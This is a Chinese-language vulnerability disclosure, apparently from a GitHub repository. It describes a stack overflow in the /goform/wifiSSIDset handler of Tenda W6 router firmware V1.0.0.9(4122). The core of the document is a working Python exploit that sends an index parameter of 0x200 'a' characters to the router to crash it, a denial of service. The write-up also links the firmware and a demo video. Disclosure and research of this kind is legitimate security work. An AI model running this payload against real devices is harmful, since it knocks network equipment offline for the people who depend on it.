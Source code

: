 # Tenda W6 栈溢出漏洞

## 设备漏洞介绍 
Tenda W6是中国深圳腾达科技（Tenda）公司的一款企业无线AP路由器。

Tenda W6 V1.0.0.9(4122) 版本中的/goform/wifiSSIDset存在栈溢出漏洞，攻击者可利用此漏洞通过index参数导致拒绝服务 (DoS)。

固件下载地址：https://www.tenda.com.cn/download/detail-2576.html

## 漏洞位置
/goform/wifiSSIDset

formwrlSSIDset()函数

![image-20220708155526810](pic/image-20220708155526810.png)

![image-20220708155804797](pic/image-20220708155804797.png)

## Exp

```python
import requests
from pwn import *

burp0_url = "http://192.168.5.1/goform/wifiSSIDset"
burp0_headers = {"Host":"192.168.5.1",
"Content-Length":"295",
"Accept":"*/*",
"X-Requested-With":"XMLHttpRequest",
"User-Agent":"Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/102.0.5005.63 Safari/537.36",
"Content-Type":"application/x-www-form-urlencoded; charset=UTF-8",
"Origin":"http://192.168.5.1",
"Referer":"http://192.168.5.1/main.html",
"Accept-Encoding":"gzip, deflate",
"Accept-Language":"en-US,en;q=0.9",
"Cookie":"user=",
"Connection":"close"}

data1="index="+'a'*0x200

requests.post(burp0_url,headers=burp0_headers,data=data1, verify=False,timeout=1)

```
## [演示过程请看视频](./video/1.mp4)
